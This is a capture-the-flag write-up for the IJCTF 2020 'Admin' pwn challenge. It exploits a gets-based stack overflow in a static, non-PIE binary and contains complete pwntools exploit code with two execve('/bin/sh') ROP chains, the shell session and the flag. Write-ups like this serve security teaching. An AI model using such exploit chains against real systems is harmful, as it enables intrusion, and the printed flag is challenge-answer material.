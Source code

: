 # IJCTF 2020

## Admin

> 100
> 
> This admin thinks his system is very safe Is it actually safe? I say it's safe what do you think?
> 
> `nc 35.186.153.116 7002`
> 
> Challenge file: [https://github.com/linuxjustin/IJCTF2020/blob/master/pwn/admin](admin)
> 
> Author: zilikos

Tags: _pwn_


### Analysis

#### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Few mitigations in place, basically no shellcode, everything else is fair game.


#### File

```
admin: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=0ee31668ec040c05db870d1fcef7e198c0a53d37, stripped
```

Statically linked relatively large binary.  ROP rich.


#### Decompile with Ghidra

```c
void FUN_00400b4d(undefined8 param_1,undefined *param_2)

{
  int iVar1;
  char *pcVar2;
  undefined local_48 [64];
  
  FUN_004104e0("Username: ",param_2);
  FUN_00410330(local_48,param_2);
  pcVar2 = "admin";
  iVar1 = thunk_FUN_004004ce(local_48);
  if (iVar1 == 0) {
    FUN_004104e0("Welcome admin",pcVar2);
  }
  else {
    FUN_0040f6b0("Bye %s\n",local_48);
  }
  return;
}
```

"`main`" looks pretty basic; 64-byte buffer (`local_48`), prompt for `Username:`, assume `FUN_00410330` reads input from stdin, and check for a match.

Assuming `FUN_00410330` is `gets`, test with:

```bash
# cyclic 100 | ./admin
Username:
Bye aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Segmentation fault
```

Probably `gets`.

Stack diagram from Ghidra:

```
undefined         AL:1               <RETURN>
undefined8        RDI:8              param_1
undefined *       RSI:8              param_2
undefined1        Stack[-0x48]:1     local_48                                
```

Buffer is `0x48` bytes above return address.  With large static binary and _No PIE_, attempt ROP.

#### ROP options

Both:

```bash
ropper --file admin --chain "execve cmd=/bin/sh" --badbytes 0a
```

and

```bash
ROPgadget --binary admin --ropchain
```

return ROP chains for a shell.  Time to test.


### Exploit

#### Send `0x48` bytes:

```python
#!/usr/bin/env python3

from pwn import *

#p = process('./admin')
p = remote('35.186.153.116', 7002)

#p.recvuntil('Username: \n')
payload = 0x48 * b'A'
```

> This works locally, but remotely I had to comment out the `recvuntil`--probably a buffering issue on their end.


#### Send ROP chain

Option A: (ropper):

```python
IMAGE_BASE_0 = 0x0000000000400000 # 09c2fc813db5d38d1a82c5049191b426ffcd29dfdc71bf33b5630dae57b2f56b
pp = lambda x : p64(x)
rebase_0 = lambda x : pp(x + IMAGE_BASE_0)

rop = b''
rop += rebase_0(0x000000000000da9b) # 0x000000000040da9b: pop r13; ret;
rop += b'//bin/sh'
rop += rebase_0(0x0000000000000686) # 0x0000000000400686: pop rdi; ret;
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x0000000000068609) # 0x0000000000468609: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret;
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += rebase_0(0x000000000000da9b) # 0x000000000040da9b: pop r13; ret;
rop += pp(0x0000000000000000)
rop += rebase_0(0x0000000000000686) # 0x0000000000400686: pop rdi; ret;
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000068609) # 0x0000000000468609: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret;
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += rebase_0(0x0000000000000686) # 0x0000000000400686: pop rdi; ret;
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x0000000000010193) # 0x0000000000410193: pop rsi; ret;
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x000000000004bcc6) # 0x000000000044bcc6: pop rdx; ret;
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000015544) # 0x0000000000415544: pop rax; ret;
rop += pp(0x000000000000003b)
rop += rebase_0(0x0000000000074d15) # 0x0000000000474d15: syscall; ret;
```

Option B: (ROPgadget):

```python
rop  = b''
rop += p64(0x0000000000410193) # pop rsi ; ret
rop += p64(0x00000000006b90e0) # @ .data
rop += p64(0x0000000000415544) # pop rax ; ret
rop += b'/bin//sh'
rop += p64(0x000000000047f321) # mov qword ptr [rsi], rax ; ret
rop += p64(0x0000000000410193) # pop rsi ; ret
rop += p64(0x00000000006b90e8) # @ .data + 8
rop += p64(0x0000000000444aa0) # xor rax, rax ; ret
rop += p64(0x000000000047f321) # mov qword ptr [rsi], rax ; ret
rop += p64(0x0000000000400686) # pop rdi ; ret
rop += p64(0x00000000006b90e0) # @ .data
rop += p64(0x0000000000410193) # pop rsi ; ret
rop += p64(0x00000000006b90e8) # @ .data + 8
rop += p64(0x0000000000449765) # pop rdx ; ret
rop += p64(0x00000000006b90e8) # @ .data + 8
rop += p64(0x0000000000444aa0) # xor rax, rax ; ret
rop += 59 * p64(0x0000000000474770) # add rax, 1 ; ret
rop += p64(0x000000000040123c) # syscall
```

Both `ropper` and `ROPgadget` output Python2 code, the above were converted for Python3.

> Both were tested.

Then:

```python
payload += rop

p.sendline(payload)
p.interactive()
```

Run it.

Output:

```
# ./exploit.py
[+] Opening connection to 35.186.153.116 on port 7002: Done
[*] Switching to interactive mode
$ ls
admin
bin
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
IJCTF{W3lc0m3_4g4in_d34r_AADMMIINN!!!}
```

#### Flag

```
IJCTF{W3lc0m3_4g4in_d34r_AADMMIINN!!!}
```

